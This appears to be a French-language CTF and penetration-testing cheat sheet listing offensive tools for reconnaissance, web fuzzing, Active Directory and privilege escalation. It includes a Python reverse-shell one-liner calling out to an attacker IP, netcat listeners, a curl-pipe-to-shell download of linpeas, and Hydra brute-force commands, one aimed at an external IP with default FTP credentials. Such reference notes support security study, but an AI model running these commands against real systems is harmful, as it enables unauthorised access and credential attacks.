 # CTF
Write-up des chall que j'ai réalisé


# TOOLS
FrameWork pour OSINT de numero de telephone => phoneinfoga 
FUZZ => Feroxbuster, dirb, dirbuster, gobuster

Scanner de vulnerabilitö web => nikto, Nessus, Rapid7, OpenVas
Done => fuzz sous-domaine + Port Scan (https://github.com/v4d1/Dome) 

Scanner de platforme web => BurpSuite, ZAProxy

Reconnaissance passive graphique => Maltego
Reconnaissance passive => Metagoofil

yersinia => Pour les protocoles de communication (Cisco et autre)

CRUNSH : DICO + SEL

CUPP : Création de dico en fonction des noms données

Setoolkit : Social Ingénieuring (copie de site pour récupérer les URL)

hashid : donne le type de hash d'un hash

arpspoof : recupere les requetes ARP et les transmets (man in the middle)

exiftool : metadata du fichier

hexdump : (-C) transformation en hexa du fichier bin

powershell-empire : comme metaspote, exploit windows

KrbRelayUp : Escalation privilege sur Windows en exploitant les requêtes LDAP non-signées

recon-ng : Framework de reconnaissance passive (avec API)

Discover : Framework de reconnaissance passive (avec API) + recon ng + google dorks

pypykatz / Empire : Check des fichiers pour monter les privilèges WINDOWS

linuxprivchecker et linpeas : Check des fichiers pour monter les privilèges LINUX
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

Steghide : Extraction de fichier a partir d'un autre fichier et passphrase

crackmapexec : Pentest orienté AD (connexion via plusieurs protocole, script, hash, un couteau suisse)

dnSpy : Reverse Application : https://github.com/dnSpy/dnSpy

------SMB------

enum4linux.py : Fait tout un tas de test sur le SMB

-----Scanner-----

nmapAutomator : git clone https://github.com/21y4d/nmapAutomator.git
                sudo ln -s $(pwd)/nmapAutomator/nmapAutomator.sh /usr/local/bin/
                
-----WEB------

Nikto : Pentest Web -> check une URL

dirb : brute force pour trouvé des pages web ou des dossiers

zaproxy : Nessus pour le web (scan les vulnérabilitées)

wpscan : scan wordpress -> Puissant

curl : requete vers site web

droopescan : Scan de site Drupal (comme Wpscan pour workPress)

Cewl : récupere les mots d'un site et fait un dico pour brute force

https://whatsmyname.app/ : recherche de compte a partir d'un pseudo 

GTFOBins : Exploit de binaire Linux => https://gtfobins.github.io/


------Reverse Shell -----
rlwrap -caR nc -lvnp $port : Ecoute et stabilise le shell

Netcat Ecoute :
nc -lvnp $port

Avoir un shell :
python3 -c 'import pty;pty.spawn("/bin/bash")'

export RHOST="10.10.14.5";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

Autre NetCat : https://github.com/xct/xc
............ : https://github.com/calebstewart/pwncat

https://www.revshells.com/ : Générateur de shell


# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://212.147.79.4
```
# WORDLIST :
```
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 

/usr/share/wordlists/dirb/big.txt => sub domain 

/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/usr/share/seclist/bitquark-subdomains-top100000.txt

/usr/share/seclist/subdomains-top1millions-110000.txt
```


# AD / Windows Tools :

evil-winrm : connection a windows (avec un meterpreter)

BloodHound (avec neo4j)

windapsearch : Recherche sur LDAP (si soucis d'installation faire :
```
sudo pip2 install ldap3 
sudo apt install python3-ldap 
```
